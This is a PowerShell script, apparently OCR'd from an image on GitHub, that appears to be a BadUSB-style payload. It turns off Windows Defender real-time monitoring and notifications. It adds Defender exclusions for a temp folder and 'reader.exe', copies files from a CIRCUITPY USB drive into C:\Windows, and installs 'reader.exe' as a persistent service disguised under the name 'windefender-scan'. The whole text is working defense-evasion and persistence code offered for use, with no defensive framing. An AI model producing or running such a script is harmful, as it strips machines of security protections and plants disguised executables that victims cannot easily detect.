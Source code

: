 # Disable Enhanced Notifications

powershell -command 'Add-MpPreference -ExclusionPath "c:\temp" -ExclusionProcess "C:\Windows\reader.exe"'

Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows Defender Security Center\Notifications" -Name DisableEnhancedNotifications -Value 1

# Disable Real-Time Monitoring
Set-MpPreference -DisableRealtimeMonitoring $true

# Find the CIRCUITPY drive
$driveLetter = Get-WmiObject Win32_LogicalDisk | Where-Object { $_.VolumeName -eq "CIRCUITPY" } | Select-Object -ExpandProperty DeviceID

if ($driveLetter) {
    $sourcePath = Join-Path $driveLetter "data"
    $destinationPath = "C:\Windows"

    # Check if the source path exists
    if (Test-Path $sourcePath) {
        # Copy files from CIRCUITPY to the Windows folder
        Copy-Item -Path "$sourcePath\*" -Destination $destinationPath -Recurse -Force
        Set-Location -Path $destinationPath

        # Define NSSM path and service parameters
        $nssmPath = Join-Path $destinationPath "nssm.exe"  # Assuming nssm.exe is copied to the Windows folder
        $serviceName = "windefender-scan"
        $exePath = Join-Path $destinationPath "reader.exe"

        # Check if NSSM and the reader.exe file exist
        if ((Test-Path $nssmPath) -and (Test-Path $exePath)) {
            # Install and start the service
            & $nssmPath install $serviceName $exePath
            & $nssmPath start $serviceName
        } else {
            Write-Host "nssm.exe or reader.exe not found in the destination path."
        }
    } else {
        Write-Host "Source folder 'data' not found on CIRCUITPY drive."
    }
} else {
    Write-Host "CIRCUITPY drive not found."
}

